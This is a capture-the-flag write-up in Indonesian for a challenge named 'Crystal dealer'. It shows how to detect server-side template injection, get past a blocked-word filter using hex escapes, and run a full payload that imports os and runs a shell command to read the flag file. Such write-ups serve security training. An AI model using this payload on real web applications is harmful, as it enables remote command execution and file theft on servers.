



# Crystal dealer

Description:

A: "who the h3ll are you?"

B: "you all know exactly who i am"

Author: Abdieryy

## How to Solve

Diberikan sebuah source code seperti ini



Disitu terdapat sebuah kata yang terlarang untuk melakukan submit pada form

Namun jika dicoba memasukan `{{7*7}}`, maka SSTI akan terjadi



Untuk mengatasi hal tersebut kita perlu melakukan bypass kata terlarang dengan [hex](https://www.freecodecamp.org/news/ascii-table-hex-to-ascii-value-character-code-chart-2/)

```
a = \x61
b = \x62
application = \x61\x70\x70\x6c\x69c\x61\x74\x69\x6f\x6e
```

Dengan mengambil referensi payload dari [PayloadBox](https://github.com/payloadbox/ssti-payloads)

Maka kita dapat membuat payload seperti ini

```
{{request|attr('\x61\x70\x70\x6c\x69c\x61\x74\x69\x6f\x6e')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('os')|attr('\x70\x6f\x70\x65\x6e')('\x63at\x20\x66lag\x5fh31s3NB3rG.txt')|attr('\x72\x65\x61\x64')()}}
```



```
ARA5{You've_5H0Uldd__W4Tch_th3_S3riE5_NOW!_0x756af8}
```